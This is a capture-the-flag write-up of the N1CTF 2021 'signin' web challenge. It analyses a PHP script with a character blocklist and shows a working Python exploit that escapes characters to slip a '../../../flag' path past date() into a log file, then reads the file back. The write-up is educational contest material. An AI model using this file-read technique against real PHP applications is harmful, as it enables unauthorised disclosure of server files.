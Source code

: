 # N1CTF 2021 - signin (web)

The challenge provides us with a link.

![Challenge link](./img/chall.png "Challenge link")

Clicking on the link brings us to a webpage with a PHP script and what seems to be the output of the script.

![Challenge page](./img/chall_page.png "Challenge page")

```php
<?php 
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die();
    }
}
if(file_put_contents($name, $time)){
	echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
	echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}
```

Looking at the script, I did some analysis and came up with the following points:

* `$path` is set to the `POST` parameter `path`
* If the query string `time` exists then set `$time` variable based on the request.
  * `php://input` reads all raw data after the HTTP headers from the request body
  * `date( string )` formats the current datetime according to the string
* `$name` is a concatenation of the UNIX time and a random number
* `$blist` is an array of strings
  ```php
  $blist = ["f", "ht", "ba", "z", "ro", ";", ",", "=", "c", "g", "da", "_"];
  ```
* If any of `$blist` is found in `$path`, then terminate the script
* Write `$time` into a file with name `$name`
* `$check` is the contents of $path with newlines (and surrounding whitespaces) removed
  * If `$check` is a valid filepath then show its contents.

## Approach

Based on the comment in the first line, the goal seems to be to read the contents of the file at `/flag`, but how can we do so? 

We can use the `file_get_contents()` function to get the contents of `/flag`. 
* To acheive this, we need to control `$check` and set it to `/flag`. 
* `$check` is controlled by the contents of `$path`.

However, we do not know what other files there are on the server, other that the logs that are generated, e.g.

![Example log](./img/log_eg.png "Example log")

From the script, we can see that we have control of the contents of these logs via the variable `$time`. 

## Reading the log file

I did some testing to see if I can indeed read the file given by the `POST` parameter `path`. First, I made and empty request, which generated a log file at `/var/www/tmp/1637466858976676123.txt`.

![Empty request](./img/empty_request.png "Empty request")

Next, I sent another request with the `POST` data `path=/var/www/tmp/1637466858976676123.txt`, and I manage to read the contents of the logfile.

![Read log](img/read_log.png "Read log")

## Controlling `$time`

In order to control `$time`, we have to bypass the `date()` function. For testing, I started a docker instance of `php:8.0.13-apache`:

```sh
$ docker run -it --rm -d 8080:80 --name signin -v "$PWD/docker":/var/www php:8.0.13-apache
```

Then, I placed a test script into `/var/www/html`, which displays the value that would be stored in `$time` in the actual script. 

```php
<?php
$content = file_get_contents("php://input")

echo $content."\n";
echo urldecode(date($content))
?>
```

I used a python script to send requests to this server, and found the right payload after some trial and error.

```python
#!/usr/bin/python3

import requests

url = "http://localhost:8080/signin.php?time=time"
data = '../../../f\l\\a\g'

x = requests.post(url, str(data))
print(x.request.body)
print(x.text)
```

![Found the payload](./img/payload.png "Found the payload")

From this, I can now craft the full exploit. We have to make two requests:
1. to inject the log file with "../../../flag"
2. with the path to the log file as `path`

```python
#!/usr/bin/python3

import requests

url = "http://43.155.64.70?time=1"

## Make the first request to store "../../../flag" into the logfile
payload1 = str('../../../f\l\\a\g')
response1 = requests.post(url, payload1).text

## Extract path to the logfile
path_start = response1.find('logpath', 600)
path_end = response1.find('</code>', path_start)
logpath = response1[path_start + 8:path_end]

## Make the second request to access the polluted logfile
payload2 ={ 'path': logpath }
response2 = requests.post(url, payload2).text

## Extract the flag
flag_start = response2.find('n1ctf')
flag_end = response2.find('</code>', flag_start)
flag = response2[flag_start:flag_end]

print(flag)
```

The script successfully extracts the flag.

![Flag](./img/flag.png "Flag")
> n1ctf{bypass_date_1s_s000_eassssy}